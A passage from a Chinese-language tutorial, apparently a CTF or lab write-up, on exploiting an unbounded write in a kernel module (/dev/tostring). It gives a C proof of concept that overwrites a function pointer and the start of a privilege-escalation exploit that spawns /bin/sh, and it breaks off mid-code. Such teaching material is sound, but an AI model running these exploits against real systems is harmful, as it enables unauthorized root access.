 成功下断。

### <a class="reference-link" name="LKMs%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>LKMs漏洞分析

可以看到，程序在读入我们发送的值时，没有做长度限定，那么，我们事实上可以读入任意长字节。

而程序的`0x08000984`处存储了我们read时即将调用的指针，那么我们完全可以覆盖掉那个指针为我们想要其为的值。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-16-092434.png)

控制其的PoC为：

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
int main()`{`
    char Padding[9] = "AAAAAAAA";
    char Eip[5] ;
    int fd = open("/dev/tostring",O_WRONLY);
    for(int i = 0;i &lt; 0x40; i++)
        write(fd,Padding,sizeof(Padding));
    write(fd,Eip,sizeof(Eip));
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-16-093750.png)

可以发现，我们的确可以控制那个函数指针。

我们可以通过查看`/proc/kallsyms`来定位提权用函数的地址。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-16-113302.png)

我们可以构造如下所示的`Exploit`:

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
#include &lt;stdint.h&gt;
struct trap_frame`{`
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
`}`__attribute__((packed));
struct trap_frame tf;
void get_shell(void)`{`
    execl("/bin/sh", "sh", NULL);
`}`
void init_tf_work(void)`{`
    asm("pushl %cs;popl tf+4;"    //set cs
        "pushfl;popl tf+8;"       //set eflags
        "pushl %esp;popl tf+12;"
        "pushl %ss;popl tf+16;");
```